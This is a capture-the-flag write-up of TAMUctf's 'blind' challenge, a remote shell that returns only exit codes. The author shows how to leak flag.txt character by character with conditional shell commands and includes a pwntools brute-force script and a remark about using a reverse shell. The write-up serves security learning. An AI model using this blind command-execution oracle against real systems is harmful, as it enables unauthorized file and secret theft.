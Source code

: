 # blind

- Category: misc
- Rating: ? pts

After connecting we notice an Execute: prompt. Seems that it outputs only the return code of the command.

```
$ nc challenges.tamuctf.com 3424
Execute: ls 
0
Execute: asdf
127
Execute: ^C
```

We can confirm the existance of the flag but trying:

```
Execute: cat flag.txt
0
```

This is very similar to a blind sql situation where we don't get the output of the query but we get a (usually binary) signal instead. We can brute force the flag character by character by construct a command that returns a different code depending on whether or not a guessed character is right or wrong. For example: `if [[ $(cat flag.txt) == *"gigem{a"* ]];then asdf; else echo;fi` returns `127` while `if [[ $(cat flag.txt) == *"gigem{r"* ]];then asdf; else echo;fi` returns `0`.


# Solution

```python
#!/usr/bin/env python

from pwn import * 
from string import ascii_letters, digits, punctuation

r = remote("challenges.tamuctf.com", 3424)

context.log_level = 'DEBUG'

alphabet = ascii_letters + digits + '!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|~}'
flag = "gigem{"

# while flag[-1] != '}':
while True:
    for cand in alphabet:
        payload = 'if [[ $(cat flag.txt) == *"%s"* ]];then asdf; else echo;fi' % (flag+cand)
        r.sendlineafter("Execute: ", payload)
        res = r.recvline()

        if b'127' in res:
            flag += cand
            print('update! flag: %s' % flag)
            break
        else: continue

print("done!")
print(flag)
```
# Flag

`gigem{r3v3r53_5h3ll5}`

*facepalm* That's right... A reverse shell would have been a quicker solution
